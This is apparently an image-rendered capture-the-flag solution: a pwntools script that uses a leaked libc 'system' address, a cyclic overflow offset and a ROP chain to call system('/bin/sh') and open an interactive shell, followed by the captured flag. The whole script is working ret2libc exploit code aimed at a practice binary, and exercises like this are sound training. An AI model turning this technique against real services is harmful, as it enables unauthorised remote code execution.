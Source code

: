 ```python
    libc = ELF(LIBC_LOCAL, checksec=False)

    if (args.remote):
        host = HOST.split(':')
        proc = remote(host[0], int(host[1]))
        try: libc = ELF(LIBC_REMOTE, checksec=False)
        except: libc = None


    ## get da banner
    log.info('Receiving banner ...')
    pause()
    # proc.recvuntil('> ')
    banner = proc.recvuntil(b'lol: ')
    lol_addr = proc.recvuntil(b'\n', drop=True)
    log.info(f'lol was {lol_addr}')
    proc.recvuntil(b'system leak plz: ')
    system_addr = int(proc.recvuntil(b'\n', drop=True), 16)
    log.success(f'System addr: {hex(system_addr)}')

    # offset for overflow
    offset = cyclic_find(b'kaaa')
    log.info(f'Offset: {offset}')

    # rebase libc using leak
    libc.address = system_addr - libc.symbols['system']
    rop = ROP(libc)
    rop.call(libc.symbols['system'], [next(libc.search(b'/bin/sh\x00'))])

    # construct payload
    payload = flat({
        offset: rop.chain()
    })

    proc.sendlineafter(b'> ', payload)

    # shellit
    proc.interactive()

```

> `flag{s0_y0u_c@n_r0p??}`
